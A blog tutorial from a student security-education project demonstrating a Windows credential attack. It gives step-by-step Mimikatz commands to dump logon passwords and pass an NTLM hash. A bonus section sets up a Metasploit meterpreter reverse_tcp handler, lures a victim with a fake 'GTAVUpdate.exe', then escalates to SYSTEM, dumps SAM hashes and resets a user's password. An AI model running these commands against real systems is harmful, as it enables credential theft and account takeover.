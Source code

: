 ```yaml
---
title: 'Passing the Hash with Mimikatz'
excerpt: "In this article, I'll walk you through how to use Mimikatz to obtain user passwords from a Windows machine. I'll also show you how to use Mimikatz in order to perform an attack called passing the hash (pth) to escalate your privileges and impersonate a user. Also as a bonus, I'll show you how you can utilise both a Meterpreter reverse shell and a phishing attack in order to get the same outcome but without needing physical access to the target's machine."
publishDate: '2022-04-07'
tags: ['Security']
---
```



<div className="markdown">

<div className="grid w-full my-8 items-start gap-4">
  <Alert variant="destructive" className="w-full gap-4">
    <InfoIcon className="w-5" />
    <AlertTitle>The contents in this article may be outdated</AlertTitle>
    <AlertDescription>
      This article was made as a part of Cookies.sh – a project that I made in
      my university days to educate people about topics in Security.
    </AlertDescription>
  </Alert>
</div>

### What will you learn?

<div className="w-full flex flex-col md:flex-row space-between gap-4">
  <div className="w-[15rem] md:w-[25rem] flex flex-col gap-2 p-4">
    <svg
      xmlns="http://www.w3.org/2000/svg"
      width="24"
      height="24"
      viewBox="0 0 24 24"
      fill="none"
      stroke="currentColor"
      strokeWidth="2"
      strokeLinecap="round"
      strokeLinejoin="round"
      className="lucide lucide-shield-alert"
    >
      <path d="M20 13c0 5-3.5 7.5-7.66 8.95a1 1 0 0 1-.67-.01C7.5 20.5 4 18 4 13V6a1 1 0 0 1 1-1c2 0 4.5-1.2 6.24-2.72a1.17 1.17 0 0 1 1.52 0C14.51 3.81 17 5 19 5a1 1 0 0 1 1 1z" />
      <path d="M12 8v4" />
      <path d="M12 16h.01" />
    </svg>
    <div className="text-lg font-semibold">Mimikatz</div>
    <small className="text-secondary-foreground text-sm">
      Mimikatz is well known to extract plaintexts, passwords, and hash from
      memory.
    </small>
  </div>
  <div className="w-[15rem] md:w-[25rem] flex flex-col gap-2 p-4">
    <svg
      role="img"
      width="24"
      height="24"
      viewBox="0 0 24 24"
      xmlns="http://www.w3.org/2000/svg"
    >
      <title>Metasploit</title>
      <path d="M11.353 0h1.368q4.19.218 8.144 1.616.217.077.216.309-.015 4.033-.002 12.102 0 .81-.093 1.173c-.217.845-.76 1.635-1.326 2.325q-.318.388-1.024 1.046-2.955 2.75-6.01 5.094-.183.14-.516.335h-.17q-.627-.42-.945-.673-3.992-3.184-5.442-4.459-1.348-1.185-2.169-2.611c-.369-.64-.466-1.287-.465-2.099q.01-6.048.002-12.218c0-.183.09-.264.261-.325Q7.145.227 11.352 0ZM7.474 7.864q0-.094.069-.031l2.797 2.516a.374.372 21.2 0 1 .122.276l-.006 4.333a.182.182 0 0 0 .183.184l2.524-.018a.11.11 89.8 0 0 .108-.11q-.007-2.201.01-4.461.002-.173.146-.29 1.397-1.145 2.946-2.393.068-.055.068.032v10.881q0 .092.063.024.794-.865 1.628-1.838.71-.83.984-1.87.26-.989.262-1.997.007-4.754.009-9.768a.136.136 0 0 0-.137-.136q-1.15.004-2.424 0c-.287-.002-.441-.022-.619.149Q14.16 5.317 11.982 7.4a.046.046 0 0 1-.062 0Q9.782 5.437 7.769 3.525c-.234-.222-.515-.381-.843-.373q-1.09.026-2.33.005-.184-.004-.184.18-.003 4.54.005 9.032.002.536.036 1.027c.076 1.093.2 2.126.803 3.021.574.852 1.329 1.656 2.126 2.405q.023.022.054.026.04.006.04-.034z" />
    </svg>
    <div className="text-lg font-semibold">Metasploit</div>
    <small className="text-secondary-foreground text-sm">
      The world&apos;s most used penetration testing framework.
    </small>
  </div>
  <div className="w-[15rem] md:w-[25rem] flex flex-col gap-2 p-4">
    <svg
      role="img"
      width="24"
      height="24"
      viewBox="0 0 24 24"
      xmlns="http://www.w3.org/2000/svg"
    >
      <title>Kali Linux</title>
      <path d="M12.778 5.943s-1.97-.13-5.327.92c-3.42 1.07-5.36 2.587-5.36 2.587s5.098-2.847 10.852-3.008zm7.351 3.095l.257-.017s-1.468-1.78-4.278-2.648c1.58.642 2.954 1.493 4.021 2.665zm.42.74c.039-.068.166.217.263.337.004.024.01.039-.045.027-.005-.025-.013-.032-.013-.032s-.135-.08-.177-.137c-.041-.057-.049-.157-.028-.195zm3.448 8.479s.312-3.578-5.31-4.403a18.277 18.277 0 0 0-2.524-.187c-4.506.06-4.67-5.197-1.275-5.462 1.407-.116 3.087.643 4.73 1.408-.007.204.002.385.136.552.134.168.648.35.813.445.164.094.691.43 1.014.85.07-.131.654-.512.654-.512s-.14.003-.465-.119c-.326-.122-.713-.49-.722-.511-.01-.022-.015-.055.06-.07.059-.049-.072-.207-.13-.265-.058-.058-.445-.716-.454-.73-.009-.016-.012-.031-.04-.05-.085-.027-.46.04-.46.04s-.575-.283-.774-.893c.003.107-.099.224 0 .469-.3-.127-.558-.344-.762-.88-.12.305 0 .499 0 .499s-.707-.198-.82-.85c-.124.293 0 .469 0 .469s-1.153-.602-3.069-.61c-1.283-.118-1.55-2.374-1.43-2.754 0 0-1.85-.975-5.493-1.406-3.642-.43-6.628-.065-6.628-.065s6.45-.31 11.617 1.783c.176.785.704 2.094.989 2.723-.815.563-1.733 1.092-1.876 2.97-.143 1.878 1.472 3.53 3.474 3.58 1.9.102 3.214.116 4.806.942 1.52.84 2.766 3.4 2.89 5.703.132-1.709-.509-5.383-3.5-6.498 4.181.732 4.549 3.832 4.549 3.832zM12.68 5.663l-.15-.485s-2.484-.441-5.822-.204C3.37 5.211 0 6.38 0 6.38s6.896-1.735 12.68-.717Z" />
    </svg>
    <div className="text-lg font-semibold">Kali Linux</div>
    <small className="text-secondary-foreground text-sm">
      A Linux distribution designed for digital forensics and penetration
      testing.
    </small>
  </div>
</div>

### Pre Set Up

- A target (preferably with consent)
- A windows machine with multiple user account (peferably one which has admin access)
- The Windows Defender (aka Window's firewall) has been turned off
- Mimikatz (and metasploit if you are attempting the bonus feature) downloaded

```
  .#####.   mimikatz 2.0 alpha (x86) release "Kiwi en C" (Apr  6 2014 22:02:03)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                    with  13 modules * * */
```

### The Simple Way

1. Log on as `FakeUser` and demonstrate that without system admin privilege, we can't change the password of another account.
2. Launch `Mimikatz` as an administrator
3. Use command `privilege::debug` to escalate privileges
4. Use command `sekurlsa::logonpasswords` to dump all user passwords.
5. Get the hash of the user we want to impersonate (in this case, it's `User`) and the domain of the `FakeUser` account.
6. Use command:

```
sekurlsa::pth /user:User /domain:[insert_user_domain_here] /ntlm:[insert_hash_here]
```

7. A new console opens up.
8. Demonstrate that the system thinks we are still `FakeUser` but we definitely are `User`.
9. Now try changing the password and it will work. This is an pre-recording I did in case the lightning talk went sideways. If you can't view the recording below, use this link instead: [Mimikatz Video](https://youtu.be/MLizeTI0jr4)

<div className="flex w-full justify-center py-4">
  <iframe
    width="710"
    height="398"
    src="https://www.youtube.com/embed/MLizeTI0jr4"
    allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture"
    allowFullScreen
    className="rounded-sm"
  ></iframe>
</div>

### Bonus: The Fancy Way

1. Launch Kali
2. Open terminal and get IP using `ip addr`
3. Launch Metasploit using `msfconsole`
4. Use commands:

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST [IP address]
set LPORT 4444
```

5. Open another console and `cd /var/www/html`
6. Start the apache server using `service apache2 start`
7. Switch back to the meterpreter console and type `exploit`
8. Switch over to the Windows machine and talk about how a simple social engineering can be done to gain access.
9. Once launch `GTAVUpdate.exe`, go back to Kali.
10. Show that we are now impersonating this user by `getuid`
11. Escalate our privileges by `getsystem`
12. Show that we are now system admin by `getuid`
13. Load mimikatz using `load mimikatz`
14. Show that we can get user password ntlm hashes using `lsa_dump_sam`
15. Type in `shell`
16. This launches the shell and we can verify that we are system admin by `whoami`
17. Change password using `net user User hello`

### Reflection

From researching various topics about Mimikatz, passing the hash and Windows Defenders to ultimately doing a lightning talk (more like a lightning demo) about how to escalate privileges in Windows, I've learnt a lot about how powerful a tool Windows firewall is to detect malware like Mimikatz and how easy it was to hack someone's account when you have physical access (ie. GAME OVER!!!). The talk I did also spawned a couple of interesting questions about the validity of attacking a corporate network like how I demonstrated it. Spoiler alert: unless you have physical access to the network, you chances of you doing this is low. Even if you successfully manage to download Mimikatz, there are definitely going to be all sorts of red flags going off in the company's IT department.

</div>
